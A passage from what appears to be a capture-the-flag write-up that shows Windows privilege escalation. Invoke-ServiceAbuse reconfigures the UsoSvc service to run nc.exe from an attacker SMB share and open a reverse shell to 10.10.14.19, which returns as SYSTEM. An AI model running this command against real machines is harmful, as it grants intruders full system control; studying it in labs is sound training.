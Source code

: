 ```
Invoke-ServiceAbuse -Name 'UsoSvc' -command "\10.10.14.19\shared\nc.exe -e cmd.exe 10.10.14.19 6666"
```

Once again calling the `nc.exe` in our SMB server we hosted earlier. Just make sure you start a `netcat` listener on the attacking machine first. If done correctly this should call back a as `NT Authority\System`

![](<../../../.gitbook/assets/image (255).png>)

From here we can grab the `root.txt` flag.

![](<../../../.gitbook/assets/image (256) (1).png>)
